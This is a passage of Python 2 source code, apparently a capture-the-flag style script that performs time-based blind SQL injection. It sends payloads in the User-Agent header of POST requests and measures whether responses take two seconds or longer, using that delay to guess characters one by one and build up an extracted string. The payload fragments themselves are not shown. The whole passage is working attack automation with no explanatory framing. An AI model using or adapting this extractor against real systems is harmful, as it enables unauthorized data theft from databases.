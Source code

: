 ```
		num2 = 1

	payload = txt1+str(i)+txt2+str(num13)+txt4
	headers = {'User-Agent': payload}
	time1 = time.time()
	req = requests.post(url = url,data =key,headers = headers)
	time2 = time.time()
	if(time2 - time1 >=2):
		num3 = 1


	if(num1 == 1):
		num = 97
		num += 13
		payload = txt1+str(i)+txt2+str(num)+txt4
		headers = {'User-Agent': payload}
		time1 = time.time()
		req = requests.post(url = url,data =key,headers = headers)
		time2 = time.time()
		if(time2 - time1 >=2):
			num += 6
		else:
			num -= 7
		payload = txt1+str(i)+txt2+str(num)+txt4
		headers = {'User-Agent': payload}
		time1 = time.time()
		req = requests.post(url = url,data =key,headers = headers)
		time2 = time.time()
		if(time2 - time1 >=2):
			num += 3
		else:
			num -= 3
		payload = txt1+str(i)+txt2+str(num)+txt4
		headers = {'User-Agent': payload}
		time1 = time.time()
		req = requests.post(url = url,data =key,headers = headers)
		time2 = time.time()
		if(time2 - time1 <=2):
			num -= 3
		if((num == 106) or (num == 119)):
			for j in range(num,num+4):
				payload = txt1+str(i)+txt3+str(j)+txt4
				headers = {'User-Agent': payload}
				time1 = time.time()
				req = requests.post(url = url,data =key,headers = headers)
				time2 = time.time()
				if(time2 - time1 >=2):
					code += chr(j)
					print code
					num1 = 0
					num2 = 0
					num3 = 0
		else:
			for j in range(num,num+3):
				payload = txt1+str(i)+txt3+str(j)+txt4
				headers = {'User-Agent': payload}
				time1 = time.time()
				req = requests.post(url = url,data =key,headers = headers)
				time2 = time.time()
				if(time2 - time1 >=2):
					code += chr(j)
					print code
					num1 = 0
```